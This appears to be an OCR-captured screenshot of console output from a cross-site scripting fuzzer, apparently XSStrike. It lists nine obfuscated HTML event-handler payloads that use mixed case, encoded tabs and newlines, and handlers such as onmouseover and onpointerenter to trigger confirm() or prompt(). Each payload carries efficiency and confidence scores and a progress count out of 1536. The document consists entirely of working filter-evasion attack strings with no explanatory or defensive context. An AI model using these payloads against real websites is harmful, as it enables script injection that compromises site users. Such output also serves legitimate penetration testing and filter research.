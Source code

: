 ------------------------------------------------------------
 Payload: <HtML%0donmOuSeoVer%09=%09(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 367/1536
 
------------------------------------------------------------
 Payload: <htMl%09OnpoiNTeREnter%0d=%0dconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 368/1536
 
------------------------------------------------------------
 Payload: <HTML/+/oNmOuSeoVeR%0d=%0da=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 369/1536
 
------------------------------------------------------------
 Payload: <Html/+/OnPOiNteRENtER%0a=%0a(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 370/1536
 
------------------------------------------------------------
 Payload: <Html%0aoNMoUSeovEr%09=%09[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 371/1536
 
------------------------------------------------------------
 Payload: <D3v%0aOnpoInTeRenTeR%0a=%0a[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 372/1536
 
------------------------------------------------------------
 Payload: <D3v%0aoNpOiNterenTEr%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 373/1536
 
------------------------------------------------------------
 Payload: <dETails%0aONPOiNTeRenTEr%0a=%0aconfirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 374/1536
 
------------------------------------------------------------
 Payload: <deTAilS%0aoNpOiNTeRentEr%0a=%0aconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 375/1536
 
